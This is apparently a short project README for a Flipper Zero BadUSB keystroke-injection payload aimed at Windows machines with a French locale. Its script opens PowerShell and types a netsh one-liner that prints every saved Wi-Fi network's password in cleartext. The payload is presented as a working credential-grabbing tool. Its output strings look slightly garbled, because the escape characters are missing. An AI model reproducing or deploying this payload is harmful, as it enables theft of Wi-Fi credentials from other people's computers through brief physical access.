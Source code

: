 # Badkb-USB-Flip-WIFI-grab




Allows you to recover the backup wifi passwords (already connected) for a machine.



# Script : 

DELAY 1000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 2000
STRING netsh wlan show profiles | Select-String "Profil Tous les utilisateurs" | ForEach-Object { $n = ($_ -split ":")[1].Trim(); $p = netsh wlan show profile name="$n" key=clear; $key = ($p | Select-String "Contenu de la clé"); if ($key) { $key = $key.ToString().Split(":")[1].Trim(); Write-Output "nSSID: $nnMot de passe: $key" } else { Write-Output "nSSID: $nnPortail Captif" } }
ENTER
